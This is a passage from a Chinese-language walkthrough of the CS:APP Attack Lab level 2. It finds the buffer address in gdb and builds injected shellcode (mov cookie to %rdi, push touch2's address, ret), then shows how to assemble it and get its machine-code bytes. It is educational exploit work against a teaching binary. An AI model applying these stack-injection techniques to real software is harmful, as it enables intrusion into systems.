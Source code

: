 ```text
(gdb) r
(gdb) ni
(gdb) p/x $rsp
```

输出信息：

```text
$1 = 0x5561dc78
```

可见此时 `%rsp` 的值为 `0x5561dc78`，这就是缓冲区的起始地址。

##### 2.4.3 构造汇编代码

这段汇编代码需要实现的功能：

1. 将 `cookie` 的值传给 `%rdi` 寄存器（第 1 个参数）；
2. 返回到目标函数 `touch2`。

其中 `cookie` 的值由附件 `cookie.txt` 给出，为 `0x59b997fa`，函数 `touch2` 的地址由 [2.4.1](#241-查看函数-touch2-的地址) 节可知为 `0x4017ec`。

由此构造汇编代码：

```asm
mov    $0x59b997fa,%rdi
push   $0x4017ec
ret
```

因为 `ret` 时将弹栈，并将弹出的值传给 `%rip`，这里 `push $0x4017ec` 的作用就是将函数 `touch2` 的地址先压入栈中。由于栈后进先出（LIFO）的特点，这样弹栈时这个地址就会被当作函数的返回地址。

##### 2.4.4 将汇编代码转换为机器码

将这段汇编代码保存在 `level2.s` 文件中。

使用 gcc 编译得到目标代码 `level2.o`：

```bash
gcc -c level2.s
```

使用 objdump 反汇编 `level2.o`：

```bash
objdump -d level2.o
```

输出信息：

```asm
level2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```
